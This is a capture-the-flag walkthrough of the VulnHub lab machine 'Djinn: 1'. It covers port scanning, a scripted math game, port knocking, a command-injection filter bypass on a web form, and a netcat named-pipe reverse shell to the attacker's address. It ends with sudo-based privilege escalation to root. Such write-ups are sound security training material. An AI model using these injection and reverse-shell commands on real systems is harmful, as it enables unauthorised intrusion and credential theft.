


<h1 align="center">
  <br>
  <a href="https://www.vulnhub.com/entry/djinn-1,397/">
    Vulnhub's Djin: 1
  </a>
  <br>
</h1>

<h4 align="center">By <a href="https://twitter.com/0xmzfr">0xmzfr</a></h4>

***


## LAUNCH
For this CTF I'll use Kali Linux on VMWare.
After launching the VM, the following screen pops off, giving us a head-start with the machine's IP:



In our machine, we match the hostname `ctf` to the IP:
```bash
nano /etc/hosts

27.0.0.1       localhost
127.0.1.1       kali
192.168.1.102   ctf
```


## NMAP
Let's start by scanning the machine:

```bash
root@kali:~# nmap -sV -p- ctf
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-27 12:35 EST
Nmap scan report for ctf (192.168.1.102)
Host is up (0.00055s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open      ftp     vsftpd 3.0.3
22/tcp   filtered  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
1337/tcp open      waste?
7331/tcp open      http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
MAC Address: 00:0C:29:3D:F0:FA (VMware)
```

As we can see, we have 4 different services: FTP(21), SSH(22), Unknown(1337) and HTTP (7331).

## FTP
Let's try and connect to the FTP server with anonymous account (and no password)  


It works, and we have 3 different files `message.txt`, `gamee.txt` & `creds.txt`
```bash
root@kali:~# cat message.txt 
@nitish81299 I am going on holidays for few days, please take care of all the work. 
And don't mess up anything.
root@kali:~# cat game.txt 
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the 
final level and get the prize.
root@kali:~# cat creds.txt 
nitu:81299
```

## PORT 1337
Trying to connect to port 1337 with Netcat, gives us the following message:
```bash
root@kali:~# nc ctf 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(8, '*', 7)
> 100
Wrong answer
root@kali:~# nc ctf 1337
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(3, '/', 3)
> 1
(5, '/', 9)
> 

```
This little game will only accept the correct answer to the mathematical equation,
and will provide us with another one if we answer correctly.

I have written a script in Bash that recieves the equation,
strips all the unnecessary characters, solves it and sends it back to the program:

```bash

exec 3<>/dev/tcp/ctf/1337                                             #start the connection
prob1=$(head -10 <&3 | awk '/^Answer/ {getline; print}')              #grep the line below 'answer' 
prob2=$(echo $prob1 | sed 's|[()'\'',]||g')                           #strip chars from equation
let a="$prob2"                                                        #solve the equation
echo $a >&3                                                           #send the solution back

count=1                                                               #counter for loop
for i in {1..1000}                                                    #repeeat loop 1000 times
do
cycle1=$(head -1 <&3)                                                 #recieve the next equation
cycle2=$(echo $cycle1 | sed 's|[()'\'',]||g')                         #strip chars from equation
let b="$cycle2"                                                       #solve the equation
echo "$count # Query recieved: $cycle1 - Math is: $cycle2 = $b"       #verbosity
echo $b >&3                                                           #send the solution back
count=$(expr $count + 1)                                              #add +1 to the loop count
done

head -100 <&3                                                         #after 1000 repeats, show the 
                                                                      #first 100 rows of the programs output
```

After executing my script, i recieved the 'gift':
```bash
996 # Query recieved: (9, '-', 3) - Math is: 9 - 3 = 6
997 # Query recieved: (8, '*', 4) - Math is: 8 * 4 = 32
998 # Query recieved: (8, '/', 9) - Math is: 8 / 9 = 0
999 # Query recieved: (9, '+', 1) - Math is: 9 + 1 = 10
1000 # Query recieved: (9, '+', 3) - Math is: 9 + 3 = 12
Here is your gift, I hope you know what to do with it:

1356, 6784, 3409
```

This combination of numbers had me confused at first, until I realised it's a **port knocking sequence**!

## Port Knocking
So I tried port knocking with the sequence we recieved: 
```bash
root@kali:~# knock -v ctf 1356, 6784, 3409
hitting tcp 192.168.1.102:1356
hitting tcp 192.168.1.102:6784
hitting tcp 192.168.1.102:3409
```

Followed by another full port scan to see if anything changed:
```bash
root@kali:~# nmap -sV -p- ctf
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-27 12:39 EST
Nmap scan report for ctf (192.168.1.102)
Host is up (0.00055s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open      ftp     vsftpd 3.0.3
22/tcp   filtered  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
1337/tcp open      waste?
7331/tcp open      http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
MAC Address: 00:0C:29:3D:F0:FA (VMware)
```

SSH is no longer filtered.
I tried every possible combination with the info we got from our 3 FTP files, but no success.
So, I moved on to the HTTP service.

## HTTP
Port 7331 offers us a website running with Werkzeug httpd 0.16.0

I tried looking around but nothing came up.
Finally I decided to run `dirb` but with the huge `rockyou.txt` password file.

After a couple of minutes, I have found that the directory /wish exists on the web-server.

Now we encounter an input that lets you inject OS commands.

The trick here is that several characters are blocked from being sent, so getting a reverse shell feels impossible.

I have decided to get into the bottom of this issue and browse the source code.
Luckily, the command `python -m SimpleHTTPServer 8080` was not blocked.

This opened another web server on port 8080, which allows me to see the content of the web-server folder.

App.py (which handles the servers' requests) had the following piece in it's source code:
```python
CREDS = "/home/nitish/.dev/creds.txt"

RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]


def validate(cmd):
    if CREDS in cmd and "cat" not in cmd:
        return True

    try:
        for i in RCE:
            for j in cmd:
                if i == j:
                    return False
        return True
    except Exception:
        return False

```

From this I understand that if we add `"/home/nitish/.dev/creds.txt"` to our command injection,
and don't have `cat` command, we will be able to bypass the character block we encountered earlier,
and establish a reverse shell.

First of all we must listen for incoming connections:
```bash
nc -nlvp 7777
```

Next, we start to establish the reverse shell. `%26%26` is the URL encoding for `&&`,
which lets us bypass character blocking because `/home/nitish/.dev/creds.txt` is technically a part of the command:
```http
POST /wish HTTP/1.1
Host: ctf:7331
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf:7331/wish
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Connection: close
Upgrade-Insecure-Requests: 1

cmd=ls /tmp/backpipe p  %26%26 /home/nitish/.dev/creds.txt
```

Followed by this command to connect to my nc listener:
```http
cmd=/bin/sh 0</tmp/backpipe | nc 192.168.1.103 443 1>/tmp/backpipe  %26%26 /home/nitish/.dev/creds.txt
```

Connected successfully:
```bash
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.103] from (UNKNOWN) [192.168.1.102] 57234
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's have a look at the content of `/home/nitish/.dev/creds.txt`:
```sh
cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
```

Looks like SSH credentials to me. Shall we give it a try? ;)

## Privillege Escalation
Trying to login to SSH with the credentials above was successful, and we got the user flag:
```bash
nitish@djinn:~$ ls
user.txt
nitish@djinn:~$ cat user.txt 
10aay8289ptgguy1pvfa73alzusyyx3c
```

Now let's check for sudo permissions using `sudo -l`:
```bash
nitish@djinn:~$ sudo -l
Matching Defaults entries for nitish on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
nitish@djinn:~$ genie
usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish
genie: error: the following arguments are required: wish
```

We have the custom binary program `genie` that takes different arguments.
Let's try and get some info about it using `strings`:

```bash
nitish@djinn:~$ strings /usr/bin/genie

help
exit
--exec
bash
args
--god
-cmd
/bin/
;*3$"

```

As we can see, the argument `-cmd` exists in strings output, but not in the -h(elp) menu within the program.
Let's give it a try:

```bash
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd id
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

Were not escalated into Sam's user.

Let's upgrade to /bin/bash and `sudo -l` as Sam:
```bash
$ /bin/bash
sam@djinn:~$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```

Another custom binary program. Let's try that one too:
```bash
sam@djinn:~$ sudo /root/lago
What do you want to do ?
1 - Be naughty
2 - Guess the number
3 - Read some damn files
4 - Work
Enter your choice:
```

This one took the most time for me to crack.
Choosing two give us:
```bash
Choose a number between 1 to 100: 
Enter your number: 
```
After messing around and trying endless things, i have tried entering 'num' in order to confuse the program and create
a situation where "num = num".
In my surprise, it actually worked!

```bash
Choose a number between 1 to 100: 
Enter your number: num
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
lago  proof.sh
```
We gained root access! let's try and run `proof.sh`:

```bash
    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn pwned...
__________________________________________________________________________

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc
Path: /home/sam
Date: Thu Nov 28 04:10:15 IST 2019
Whoami: root
__________________________________________________________________________

By @0xmzfr

Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)
```

## This was a fun challenge, covering various aspects of cybersecurity.
## Thank you so much @0xmzfr for this amazing CTF!
